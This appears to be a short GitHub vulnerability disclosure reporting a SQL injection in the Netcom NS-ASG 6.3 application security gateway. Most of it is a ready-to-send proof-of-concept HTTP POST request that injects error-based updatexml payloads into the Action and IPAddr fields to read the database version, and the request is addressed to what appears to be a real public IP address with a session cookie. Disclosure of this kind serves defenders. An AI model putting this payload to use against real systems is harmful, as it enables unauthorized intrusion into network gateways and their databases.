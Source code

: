 There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official website:https://www.netentsec.com/

version:NS-ASG 6.3

Vulnerability points：/protocol/firewall/addaddress_interpret.php

As follows, there is no validation during the execution of SQL injection

<img width="740" alt="image" src="https://github.com/ggg48966/cve/assets/51871401/897f6ac5-a492-4a18-8861-026fe6655732">

Construct POC and successfully obtain database information
Poc：
```
POST /protocol/index.php HTTP/1.1
Content-Length: 322
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent={"protocolType":"addaddress_interpret","messagecontent":["{\"Action\":\"1'and(updatexml(1,concat(0x7e,(select+version())),1))='\",\"IPAddr\":\"eth0'and(updatexml(1,concat(0x7e,(select+version())),1))='\",\"MacAddr\":\"\",\"DestIP\":\"\",\"DestMask\":\"255.255.255.0\",\"Description\":\"Sample+Description\"}"]}
```
<img width="758" alt="image" src="https://github.com/ggg48966/cve/assets/51871401/5885ed7d-372a-40a9-95dd-a99f7e59a05b">


